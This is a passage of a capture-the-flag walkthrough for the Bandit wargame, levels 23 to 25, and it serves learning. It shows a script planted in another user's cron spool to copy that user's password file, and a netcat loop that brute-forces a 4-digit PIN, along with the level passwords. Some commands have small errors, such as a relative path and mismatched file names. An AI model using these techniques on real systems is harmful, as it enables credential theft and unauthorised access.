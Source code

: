
```console
bandit23@bandit:/etc/cron.d$ mkdir /tmp/thor
bandit23@bandit:/etc/cron.d$ cd /tmp/thor
bandit23@bandit:/tmp/thor$ nano script.sh
```

Code for your script.

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > tmp/thor/flag
```

```console
bandit23@bandit:/tmp/thor$ chmod 777 script.sh 
bandit23@bandit:/tmp/thor$ cp script.sh /var/spool/bandit24/
bandit23@bandit:/tmp/thor$ ls
script.sh flag
bandit23@bandit:/tmp/thor$ cat flag
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## Level 24 -> 25:
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```console
bandit24@bandit:~$ mkdir /tmp/thor
bandit24@bandit:~$ cd /tmp/thor
bandit24@bandit:/tmp/thor$ nano script.sh
```

Fill script.sh with the below code and save it.

```bash
#!/bin/bash
pass=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
for i in $(seq 0000 9999);
do
echo $pass' '$i | netcat localhost 30002 >> /tmp/thor/results
done
```

Once you run the script, keep in mind that it takes quite a while to brute force so you may want to go make a sandwich or something.

```console
bandit24@bandit:/tmp/thor$ chmod 755 script.sh 
bandit24@bandit:/tmp/thor$ ./script.sh
bandit24@bandit:/tmp/thor$ sort result | uniq -u

Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
